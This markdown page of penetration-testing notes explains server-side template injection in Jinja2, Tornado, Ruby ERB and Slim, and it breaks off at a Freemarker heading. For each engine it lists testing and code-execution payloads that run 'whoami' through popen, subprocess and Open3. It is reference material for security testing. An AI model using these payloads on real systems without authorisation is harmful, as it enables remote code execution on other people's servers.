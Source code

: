 ```yaml
---
description: Server-Side Template Injection
---
```


# SSTI

Server-side template injection can be used for XSS, sensitive information disclosures, and even code execution.

**💡NOTE:**

To understand server-side template injection you must understand templates and to understand templates you must understand the model–view–controller design pattern.

View is used to manipulate the HTML code and is normally implemented using templates.

Templates allow you to have placeholders in your HTML code where you can pass in variables.

* Template engines can do all kinds of things such as calling functions and methods, looping over variables, and arithmetic.
* EX: the expression “\{{Title\}}” will be replaced by whatever argument is passed to the template engine:

```html
  <head>
    <title>{{Title}}</title>
  </head>
```

#### Model–view–controller design pattern

a user initiates a request to the controller -> controller uses the model to gather information from the back-end database -> information is passed back to the controller -> controller passes the information to the view the updated view is passed back to the controller -> sent to the user and rendered in the browser.

<figure><img src="../.gitbook/assets/Screenshot 2023-10-05 211128.png" alt=""><figcaption></figcaption></figure>

## Examples of Template Engines

### <mark style="color:yellow;">1. Python - Jinja 2</mark>

If you find server-side template injection in the Jinja 2 template engine the severity of your finding depends on what Python classes you have access to.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Method Resolution Order (MRO):** is the order in which Python looks for a method in a hierarchy of classes.

* For this attack, we only care about the root object class.

**SSTI testing payloads:**

* \{{7\*7\}}        ->  49
* \{{7\*’7’\}}       ->  7777777
* \{{‘’.\_\_class\_\_.\_\_mro\[1]\}}    -> get the root object by the second index in the array.
* \{{\[].\_\_class\_\_.\_\_base\_\_\}}  -> get the root object on an empty array.
* \{{\[].\_\_class\_\_.\_\_mro\[1]\_\_subclasses\_\_()\}}  -> list all the subclasses of a class.

<mark style="color:green;">**For Code Execution:**</mark>

* \{{\[].\_\_class\_\_.\_\_mro\_\_\[1].\_\_subclasses\_\_()\[-3]\('whoami',shell=True,stdout=-1).communicate()\[0]\}}
* \{{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'].popen('whoami').read()\}}

### <mark style="color:yellow;">2. Python - Tornado</mark>

Tornado is a scalable, non-blocking web server and web application framework written in Python.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

Any library available to Python is also available to the template engine, which means you can import a Python library and call it.

<mark style="color:green;">**For Code Execution:**</mark>

* { % import os %\}\{{ os.popen("whoami").read() \}}
* { % import subprocess %\}\{{ subprocess.Popen('whoami',shell=True,stdout=-1).communicate()\[0]\}}

### <mark style="color:yellow;">3. Ruby- ERB</mark>

Looks like a plain-text document interspersed with tags containing Ruby code.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**ERB tags for embedding code:**

* <% code %>   -> executes ruby code.
* <%= code %> -> executes ruby code and returns the results.

**SSTI testing payloads:**

* <%= 7 \* 7 %>   -> 49
* <%= 'whoami' %>
* <%= IO.popen('whoami').readlines() %>
* <%= require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
* <%= require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>

### <mark style="color:yellow;">4. Ruby - Slim</mark>

Fast, lightweight templating engine with support for Rails 3 and later.

Like the ERB template engine, you can execute any ruby command you want.

**Vulnerable code snippet:**

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**SSTI testing payloads:**

To execute a shell command just wrap your command in backticks.

* <mark style="color:green;">#{code}</mark>
* \#{ 'whoami' }

### <mark style="color:yellow;">5. Java - Freemarker</mark>

